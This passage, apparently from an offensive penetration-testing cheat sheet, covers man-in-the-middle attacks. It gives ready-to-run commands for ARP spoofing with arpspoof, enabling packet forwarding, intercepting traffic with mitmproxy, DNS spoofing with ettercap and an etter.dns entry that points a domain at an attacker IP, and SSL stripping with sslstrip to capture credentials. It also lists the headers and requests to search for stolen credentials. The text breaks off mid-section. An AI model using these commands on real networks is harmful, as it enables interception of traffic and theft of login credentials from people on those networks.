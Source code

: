 Look for:

```
Authorization:
Cookie:
GET /login
```

***

### VIII. 💀 Man-in-the-Middle (MITM) Attacks

#### 🧠 ARP Spoofing

```bash
sudo arpspoof -i eth0 -t 10.10.0.5 10.10.0.1
```

#### ⚙️ Enable Forwarding

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

#### 💣 Capture Traffic

```bash
sudo mitmproxy -p 8080
```

***

### IX. 🧠 DNS Spoofing

#### ⚙️ Ettercap Example

```bash
sudo ettercap -T -q -i eth0 -M arp:remote /10.10.0.1/ /10.10.0.5/
```

Edit `/etc/ettercap/etter.dns`:

```
target.com  A 10.10.14.2
```

Victim now resolves your attacker IP.

***

### X. ⚙️ SSL Stripping

Downgrade HTTPS → HTTP and capture credentials.

```bash
sudo sslstrip -l 8080
```

Combine with iptables redirect:
